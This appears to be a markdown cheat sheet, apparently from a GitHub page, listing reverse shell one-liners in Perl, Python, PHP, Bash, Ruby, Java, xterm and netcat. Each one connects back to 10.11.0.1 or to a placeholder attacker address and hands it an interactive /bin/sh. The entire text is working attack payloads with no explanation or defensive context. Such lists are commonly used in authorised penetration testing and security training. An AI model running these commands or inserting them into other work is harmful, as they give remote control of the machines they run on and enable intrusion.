 - [Perl](#Perl)
- [Python](#Python)
- [PHP](#PHP)
- [Bash](#Bash)
- [Ruby](#Ruby)
- [Java](#Java)
- [xterm](#xterm)
- [nc](#nc)

### Perl
```
perl -e 'use Socket;$i="10.11.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
```
php -r '$sock=fsockopen("10.11.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Bash
```
bash -i >& /dev/tcp/10.11.0.1/8080 0>&1
```

### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("<your _p>",<your_port>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.11.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### xterm
```
xterm -display 10.11.0.1:1
```

### nc
```
nc -e /bin/sh 10.11.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> <your_port> >/tmp/f
```


